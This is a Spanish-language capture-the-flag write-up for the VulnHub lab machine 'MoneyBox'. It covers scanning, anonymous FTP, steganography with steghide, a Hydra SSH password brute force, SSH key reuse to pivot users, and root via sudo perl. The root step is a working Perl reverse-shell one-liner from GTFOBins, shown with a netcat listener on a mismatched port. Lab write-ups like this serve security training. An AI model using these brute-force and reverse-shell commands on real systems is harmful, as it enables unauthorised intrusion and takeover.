


MoneyBox
Plataforma: VulnHub · Dificultad: Fácil · Fecha: Agosto 2026
Reconocimiento
sudo arp-scan -I eth0 --localnet --ignoredupsResultado:
10.123.113.172Ahora identificamos los puertos abiertos:
nmap -p- 10.123.113.172 --open -sS -n -Pn --min-rate 50000 -oG allPortsResultado:
Open ports: 21, 22, 80Realizamos un escaneo más exhaustivo para identificar servicios y aplicar scripts básicos:
nmap -p21,22,80 -sCV 10.123.113.172 -oN targetedEntre lo más interesante:
ftp-anon: Anonymous FTP login allowed (FTP code 230)
_-rw-r--r-- 1 0 0 1093656 Feb 26 2021 trytofind.jpgEl usuario anonymous está habilitado en FTP, por lo que podemos conectarnos:
ftp 10.123.113.172
ftp> anonymous
password:
ftp> ls
ftp> get trytofind.jpgLa imagen parece ser solo un gato, nada raro. Revisamos metadatos con exiftool:

exiftool trytofind.jpgTampoco encontramos nada relevante.
Enumeración
Visitamos la web principal y encontramos un mensaje ASCII con el título “Welcome To MoneyBox CTF”. No había nada útil en el código fuente, así que realizamos fuzzing para buscar rutas ocultas:
gobuster dir -u http://10.123.113.172/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20Resultado:
blogs/ -> 200Dentro del código fuente de blogs/ encontramos una pista que dice: (La siguiente pista esta en el directorio oculto S3cr3t-T3xt)
Accedemos a http://10.123.113.172/S3cr3t-T3xt y encontramos otra pista:
Secret Key 3xtr4ctd4t4Esta clave parecía ser importante, pero no funcionó en SSH ni en otros servicios. Decidimos volver a analizar la imagen.
Explotación
Recordé la técnica de esteganografía: ocultar información dentro de archivos digitales. Usamos steghide para intentar extraer datos de la imagen con la clave encontrada:
steghide extract -sf trytofind.jpgEl programa pidió una clave; ingresamos 3xtr4ctd4t4 y obtuvimos un archivo data.txt con el siguiente mensaje:
Hello..... renu
I tell you something important. Your password is too weak, so change it.
Don't underestimate it.......De aquí deducimos:
- Existe un usuario llamado
renu. - Su contraseña es débil.
Intentamos fuerza bruta con Hydra:
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://10.123.113.172Obtuvimos la contraseña y accedimos por SSH como renu:
ssh renu@10.123.113.172 -p 22Escalada de privilegios
Dentro del sistema, el usuario renu no tenía privilegios especiales. Al listar /home encontramos otro usuario: lily.
ls /homecd /home/lily/.sshDentro de esta ruta encontramos un authorized_key (clave publica) que le pertenece al usuario renu
Si listamos la ruta /home/renu/.ssh vemos la id_rsa (clave privada) de renu osea este usuaurio puede conectarse por ssh como el usuario lily
ssh -i id_rsa lily@10.123.113.172 -p 22Nos conectamos como lily. Una vez dentro ejecutamos:
sudo -lPodíamos ejecutar como root sin contraseña el binario perl. Con esto montamos una reverse shell:
En la máquina atacante:
ncvl -p 4446En la máquina víctima (payload tomado de GTFOBins):
sudo perl -e 'use Socket;$i="10.0.0.1";$p=1234;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {
open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");
}'Y finalmente ganamos acceso a la máquina como root.